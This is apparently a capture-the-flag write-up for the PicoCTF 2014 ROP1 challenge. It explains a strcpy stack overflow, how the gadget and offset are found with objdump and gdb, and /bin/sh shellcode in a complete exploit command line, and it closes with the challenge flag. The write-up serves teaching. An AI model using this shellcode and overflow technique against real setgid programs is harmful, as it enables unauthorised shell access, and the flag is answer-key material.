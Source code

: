 #ROP1

This is a challenge from PicoCTF 2014 on return oriented programming. We are given a vulnerable C code shown below.

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void be_nice_to_people(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

void vuln(char *name){
    char buf[64];
    strcpy(buf, name);
}

int main(int argc, char **argv){
    be_nice_to_people();
    if(argc > 1)
        vuln(argv[1]);
    return 0;
}
```

#Solution
What should come to our attention is the use of ```strcpy()``` function. This does not check for the length of the string we put in, so we are able to overwrite the content of the stack.
As the name of the challenge suggests, we are to implement ROP, and what we need here is a so-called ROP-gadget that alters the value of the instruction pointer %eip 
in order to execute our shellcode.
Conveniently, the ```strcpy``` function returns the pointer to the string argument (=buf), and therefore, the value of %eax is exactly the address of buf in the stack.
What we can manipulate here is string %eax points to, so we want to set %eip to %eax(by executing the instruction ```call %eax```). We can find such ROP-gadgets using objdump as well as grep
```
objdump -d rop1 | grep "call.*eax"
```
The first one in the list is ```8048d86```, so let's use this one.

Next, we need to figure out the distance between the address of %eax and the saved %eip in the stack. If we could overwrite this %eip to point to the instruction address of ROP-gadget,
we can set %eip to the address of %eax. On the server, we were equipped with gdb. Set a breakpoint at vuln() and run the program.
```
(gdb) b vuln
```
We can now check the address of saved eip in the stack.
```
(gdb) info frame
```
This should print something like the following (the address may differ)
```
Saved registers: 
 ebp at 0xffffd728, eip at 0xffffd72c
```
Ok, now let' see where %eax points to when it returns from ```strcpy()```
```
(gdb) info register eax
eax         0xfffd6e0
```
Take the difference, and this gives ```76```. This tells us that we should pass in a string of length 76 to fill the gap, which is then followed by the 4 bytes giving the address of the ROP gadget we identified previously. 
Not over yet. The string we pass in must contain the shellcode we want to execute. Let's use this one
```
”\xeb\x18\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xb0\x0b\xcd\x80\xe8\xe3\xff\xff\xff/bin/sh”
```
Note that this system is little-endian, meaning we had to reverse the order of the hex digits: this applies to the address of the ROP-gadget too. 
Finally, we just feed this to the program as follows
```
./rop1 $(python -c 'print "\xeb\x18\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xb0\x0b\xcd\x80\xe8\xe3\xff\xff\xff/bin/sh"+ "a"*38 + "\x86\x8d\x04\x08" ')
```
The flag is ```theres_no_need_to_guess```
